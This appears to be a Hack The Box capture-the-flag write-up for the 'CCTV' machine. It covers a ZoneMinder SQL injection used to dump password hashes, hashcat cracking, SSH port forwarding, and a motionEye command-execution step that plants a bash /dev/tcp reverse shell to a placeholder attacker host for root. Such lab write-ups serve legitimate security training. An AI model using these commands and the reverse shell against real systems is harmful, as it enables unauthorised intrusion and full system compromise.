




# HTB: CCTV

**Machine Write-up**

## Executive Summary

CCTV is a Linux machine built around a video-surveillance theme. A public marketing site ("SecureVision") fronts an internal ZoneMinder video-management console, and a second, loopback-only motionEye instance manages the camera hardware itself. Neither service was hardened for the role it plays in the attack chain.

The attack chain spans three phases: initial access via **CVE-2024-51482**, an authenticated SQL injection in ZoneMinder that was used to dump password hashes and recover valid credentials for the user `mark`; internal service discovery and SSH port forwarding to reach a motionEye instance bound only to localhost; and privilege escalation to root via an authenticated command-execution flaw in motionEye (the **CVE-2025-60787** class), abusing the fact that the underlying Motion process runs with root privileges for camera device access.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target revealed two open services:

```bash
nmap <Machine_IP> -sV -sC -O

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
```

Port 80 redirected to `http://cctv.htb/`, indicating name-based virtual hosting. The domain was added to the local hosts file to continue enumeration by name rather than by IP.

### Web Enumeration

Browsing to `cctv.htb` served the SecureVision landing page, a marketing site for a CCTV/security-installation company, with a "Staff Login" button in the top corner:


*Figure 1 — SecureVision landing page (cctv.htb), the public site fronting the internal CCTV platform.*

The Staff Login button led to a login portal at `cctv.htb/zm/`, identifying the underlying platform as ZoneMinder:


*Figure 2 — ZoneMinder login portal (cctv.htb/zm/), reached via the site's "Staff Login" link.*

---

## Phase 2: Initial Foothold — ZoneMinder Authenticated SQL Injection (CVE-2024-51482)

The default credential pair `admin:admin` was accepted on the ZoneMinder login form. Once authenticated, the running version was identified as ZoneMinder v1.37.63 — within the vulnerable range for CVE-2024-51482, a boolean/time-based blind SQL injection in `web/ajax/event.php`'s `tid` parameter, affecting the 1.37 branch through 1.37.64 and fixed in 1.37.65.

A public proof-of-concept script was used to confirm and exploit the injection, dumping the `zm.Users` table via the authenticated session:

```bash
python3 poc.py -t cctv.htb -u admin -p admin

[*] Target: http://cctv.htb
[+] Authenticated as admin
[*] Testing vulnerability...
[+] Target is VULNERABLE!
[*] Dumping data from 'zm.Users'...

Username     Password
admin        $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcUhnm5N.rhlULwM0jrtbm
mark         $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
superadmin   $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m

[+] 3 entries dumped
```

All three hashes are bcrypt. The hash belonging to `mark` was isolated and cracked offline with hashcat against rockyou.txt:

```bash
echo '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' > hash.txt
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.:opensesame

Status...........: Cracked
```

The recovered credentials, `mark:opensesame`, were valid over SSH and provided an initial foothold on the box. Note that `mark`'s own home directory does not hold the user flag — it belongs to a separate account, `sa_mark`, discovered during later enumeration.

```bash
ssh mark@<Machine_IP>
mark@<Machine_IP>'s password:
...
mark@cctv:~$
```

---

## Phase 3: Internal Service Discovery & Lateral Movement

### Port Enumeration & Service Fingerprinting

From the `mark` shell, a listener check revealed several services bound only to loopback:

```bash
mark@cctv:/$ ss -tulpn

Netid  State   Local Address:Port      Process
tcp    LISTEN  127.0.0.1:9081
tcp    LISTEN  127.0.0.1:8765
tcp    LISTEN  127.0.0.1:8888
tcp    LISTEN  127.0.0.1:7999
tcp    LISTEN  127.0.0.1:3306
tcp    LISTEN  127.0.0.1:1935
tcp    LISTEN  0.0.0.0:22
tcp    LISTEN  *:80
```

Each candidate port was fingerprinted locally with curl:

```bash
mark@cctv:/$ curl -i http://127.0.0.1:7999
HTTP/1.1 200 OK
Content-Type: text/plain;

Motion 4.7.1 Running [1] Camera
1

mark@cctv:/$ curl -i http://127.0.0.1:8888
HTTP/1.1 404 Not Found
Server: mediamtx

404 page not found

mark@cctv:/$ curl -i http://127.0.0.1:8765
HTTP/1.1 200 OK
Content-Type: text/html
```

Port 7999 belongs to the Motion camera daemon, 8888 to a mediamtx media server, and 8765 returned an HTML application — the most promising target, but reachable only from the host itself.

### Reaching motionEye via SSH Port Forwarding

A local SSH port forward exposed the loopback-only service on the attacking machine:

```bash
ssh -L 8765:127.0.0.1:8765 mark@<Machine_IP>
```

Browsing to `127.0.0.1:8765` presented a motionEye login prompt, identifying the service:


*Figure 3 — motionEye login prompt (127.0.0.1:8765), reached through the SSH local port forward.*

Common default credentials did not work, so attention turned back to the host itself.

---

## Phase 4: Privilege Escalation — motionEye Authenticated Command Execution (CVE-2025-60787)

### Recovering motionEye Admin Credentials

On the host, the motioneye service and its configuration were inspected directly:

```bash
mark@cctv:/var/log/motion$ systemctl status motioneye.service
● motioneye.service - motionEye Server
     Active: active (running)
     Main PID: 1484

mark@cctv:/var/log/motion$ cat /etc/motioneye/motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @normal_password

webcontrol_port 7999
webcontrol_localhost on
```

The commented-out `admin_password` value looked like a SHA1 hash. Attempting to crack it offline was unsuccessful; however, submitting the hash string itself as the literal password on the motionEye login form succeeded — the stored value was usable directly as a credential rather than a properly verified one-way hash:

```
user: admin
pass: 989c5a8ee87a0e9521ec81a79187d162109282f0
```

### Command Execution via the "Run A Command" Action

After authenticating, the motionEye version was confirmed as 0.43.1b4 — within the range affected by CVE-2025-60787, an authenticated command-injection/RCE flaw class in motionEye caused by configuration values being passed unsanitized through to the underlying Motion process. motionEye's own camera settings expose a "Run A Command" action, which lets an authenticated admin specify a command for the host to execute on trigger:


*Figure 4 — motionEye camera settings panel, showing the "Run A Command" action used for code execution.*

A listener was started, and a reverse-shell one-liner was placed into the Run-a-Command field:

```bash
nc -nvlp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...

bash -c 'exec bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1'
```

Triggering the action returned a connection running as root: the Motion process runs with elevated privileges to access camera hardware directly, so the injected command executed as root without requiring any further local privilege-escalation step.

```bash
nc -nvlp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...
connect to <Attacker_IP> from (UNKNOWN) <Machine_IP> 48056
root@cctv:/etc/motioneye# id
uid=0(root) gid=0(root) groups=0(root)
```

From the root shell, both flags were directly readable — the low-privileged flag under a separate `sa_mark` account, and `root.txt` under `/root` — completing full compromise of the machine:

```bash
root@cctv:~# cd /home/sa_mark
root@cctv:/home/sa_mark# ls
SecureVision Staff Announcement.pdf  user.txt
root@cctv:/home/sa_mark# cd /root
root@cctv:~# ls
clean_logs.sh  docker-binaries  files  root.txt
```

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| ZoneMinder Default Credentials + SQLi (CVE-2024-51482) | `admin:admin` login, then a boolean-based blind SQL injection in `web/ajax/event.php`'s `tid` parameter dumped the `zm.Users` table | Recovered valid SSH credentials for `mark` |
| Internal Service Discovery via Port Enumeration | `ss -tulpn` revealed loopback-only services (Motion, mediamtx, motionEye) not reachable from outside the host | Identified motionEye as an internal pivot target |
| SSH Local Port Forwarding | Tunnelled the loopback-bound motionEye service (port 8765) to the attacking host | Access to an otherwise unreachable admin panel |
| motionEye Credential/Hash Reuse | The config file's `admin_password` value worked directly as a login password | Authenticated admin access to motionEye |
| motionEye Authenticated Command Execution (CVE-2025-60787) | The "Run A Command" camera action executed an attacker-supplied shell command via the root-owned Motion process | Direct root shell, full compromise |
